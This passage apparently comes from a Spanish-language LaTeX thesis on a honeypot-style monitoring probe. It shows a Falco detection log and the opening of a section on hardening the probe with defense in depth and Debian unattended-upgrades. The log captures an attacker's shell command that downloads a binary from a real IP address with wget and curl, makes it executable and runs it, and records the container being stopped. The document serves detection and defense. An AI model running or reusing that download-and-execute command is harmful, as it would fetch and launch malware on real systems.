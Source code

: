 \begin{verbatim}
    time="2017-08-29T21:55:59Z" level=debug msg="ParseFalcoNotifications: received a falco notification" 
    time="2017-08-29T21:55:59Z" level=info msg="{21:55:58.886876283: Alert Shell spawned in a container other than entrypoint 
    (user=root ssh (id=fecb65acaf55) ssh (id=fecb65acaf55) shell=bash parent=sshd cmdline=bash -c #!/bin/sh
    PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    wget http://155.94.161.92/ys808e
    curl -O http://155.94.161.92/ys808e
    chmod +x ys808e
    ./ys808e
    ) Alert Run shell in container 2017-08-29 21:55:58.886876283 +0000 UTC}" 
    time="2017-08-29T21:55:59Z" level=debug msg="map[user:root image_name:ssh image_id:fecb65acaf55]" 
    time="2017-08-29T21:55:59Z" level=debug msg="Alert received, will try to stop container" 
    time="2017-08-29T21:55:59Z" level=debug msg="incomparable ID, provided ID is larger than existing one 
    time="2017-08-29T21:55:59Z" level=debug msg="FalcoNotification.handle: stopping container" 
    time="2017-08-29T21:55:59Z" level=info msg="scheduled container ssh for stopping" 
    time="2017-08-29T21:55:59Z" level=debug msg="ScheduleContainerStop: outside the lambda function waiting for DONE signal" 
    time="2017-08-29T22:05:59Z" level=info msg="Stopping container ssh NOW!" 
    time="2017-08-29T22:06:09Z" level=info msg="container ssh has been stopped" 
    time="2017-08-29T22:06:09Z" level=debug msg="ScheduleContainerStop: Lambda function DONE"     
\end{verbatim}
\bigskip

\subsection{Securización de la sonda}
\label{subsec:securizacion-sonda}
Hay diversas medidas de seguridad a aplicar en la sonda. Siguiendo el principio de defensa en profundidad \cite{wikipedia-defense-in-depth}, aplicaremos diversas capas de protección en diferentes sistemas.

\subsubsection{Securización del sistema operativo}

En nuestro caso, la elección de \emph{Debian} permite utilizar capacidades como el sistema de \emph{unattended-upgrades} para actualizar paquetes del sistema cuando 
se publiquen actualizaciones de seguridad. 

